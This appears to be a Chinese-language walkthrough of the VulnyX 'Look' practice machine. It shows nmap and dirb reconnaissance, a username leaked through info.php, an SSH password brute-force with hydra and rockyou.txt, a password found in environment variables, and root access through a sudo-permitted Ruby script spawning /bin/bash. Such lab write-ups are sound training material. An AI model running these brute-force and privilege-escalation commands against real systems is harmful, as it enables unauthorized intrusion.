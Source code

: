 # 环境

来自[Vulny_Look](https://vulnyx.com/#Look)，通过信息泄露爆破ssh，ruby提权

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.88.0/24
```

![image-20240906091529127](image/image-20240906091529127.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.10.11
```

![image-20240906091647308](image/image-20240906091647308.png)

## 详情探测

```bash
sudo nmap -sV -sC -p22,80 -O 192.168.10.11
```

![image-20240906091828157](image/image-20240906091828157.png)

## 目录扫描

```bash
dirb http://192.168.10.11
```

![image-20240906092351884](image/image-20240906092351884.png)

# web渗透

## info.php敏感信息

访问http://192.168.10.11/info.php，搜索user可泄露用户名

![image-20240906092507168](image/image-20240906092507168.png)

## ssh爆破

```bash
hydra -l axel -P /usr/share/wordlists/rockyou.txt ssh://192.168.10.11 -o output.txt
```

![image-20240906093540127](image/image-20240906093540127.png)

## 用户泄露

```bash
printenv #环境变量发现用户密码
用户：dylan
密码：bl4bl4Dyl4N
```

![image-20240906100305468](image/image-20240906100305468.png)

## 提权

```bash
sudo -l
file /usr/bin/nokogiri #发现是一个ruby脚本
cat /usr/bin/nokogiri
sudo -u root /usr/bin/nokogiri .profile -e "exec '/bin/bash'"
```

[ruby提权](https://gtfobins.github.io/gtfobins/ruby/)

![image-20240906102312670](image/image-20240906102312670.png)